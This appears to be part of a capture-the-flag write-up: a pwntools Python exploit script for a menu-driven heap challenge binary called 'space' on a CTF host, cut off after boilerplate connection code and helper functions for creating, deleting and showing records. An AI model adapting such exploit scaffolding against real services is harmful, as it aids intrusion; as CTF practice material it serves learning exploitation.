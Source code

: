 My exploit is a bit unreliable, Might need to run it a few times.

#### exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys

exe = context.binary = ELF('./space')

host = args.HOST or 'jh2i.com'
port = int(args.PORT or 50016)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv,aslr=True, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

def make(fname,lname,fuck,fuck2,year=1992,month=2000,day=0,commentlen=10,comment=''):
	io.sendlineafter('> ','1')
	io.sendlineafter('name: ',fname)
	io.sendlineafter('name: ',lname)
	io.sendlineafter('[y]: ',fuck[0])
	if fuck[0]=='y':
		io.sendlineafter(':',str(year))
		io.sendlineafter(':',str(month))
		io.sendlineafter(':',str(day))
	io.sendlineafter('[y]: ',fuck2[0])
	if fuck2[0] == 'y':
		io.sendlineafter(':',str(commentlen))
		io.sendlineafter(':',comment)
	io.sendlineafter('[y/n]','n')

def delete():
	io.sendlineafter('> ','4')
	io.sendlineafter('[y/n]','n')

def show(idx):
	io.sendlineafter('> ', '3')
```